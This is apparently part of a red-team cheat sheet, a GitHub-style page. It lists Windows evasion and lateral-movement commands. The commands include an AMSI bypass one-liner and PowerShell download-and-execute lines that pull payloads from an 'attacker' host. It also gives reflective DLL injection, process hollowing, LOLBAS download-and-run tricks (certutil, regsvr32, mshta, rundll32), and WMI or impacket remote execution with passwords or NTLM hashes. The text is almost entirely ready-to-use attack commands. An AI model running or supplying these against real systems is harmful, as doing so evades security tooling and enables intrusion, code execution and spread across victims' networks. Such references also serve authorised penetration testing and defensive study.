 ### 👻 Evasion Techniques

#### PowerShell Evasion

```powershell
# AMSI Bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Execution Policy Bypass
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
powershell -w hidden -ep bypass -enc <base64_payload>

# Obfuscation
Invoke-Obfuscation
```

#### Process Injection

```powershell
# Reflective DLL Injection
Invoke-ReflectivePEInjection -PEUrl http://attacker/payload.dll -ProcName explorer

# Process Hollowing
Start-Process notepad.exe -WindowStyle Hidden
Invoke-ProcessHollowing -Processname notepad.exe -PayloadURL http://attacker/payload.exe
```

#### Living Off The Land

```bash
# LOLBAS techniques
certutil -urlcache -split -f http://attacker/payload.exe payload.exe
regsvr32 /s /n /u /i:http://attacker/payload.sct scrobj.dll
mshta http://attacker/payload.hta
rundll32 javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://attacker/payload.sct")
```

### 🕷️ Advanced Lateral Movement

#### WMI Lateral Movement

```bash
# Linux - impacket
wmiexec.py domain.com/user:pass@target
wmiexec.py -hashes :NTLM_HASH domain.com/user@target

# Windows
wmic /node:target /user:domain\user /password:pass process call create "cmd.exe /c <command>"
Invoke-WmiMethod -ComputerName target -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c <command>"
```
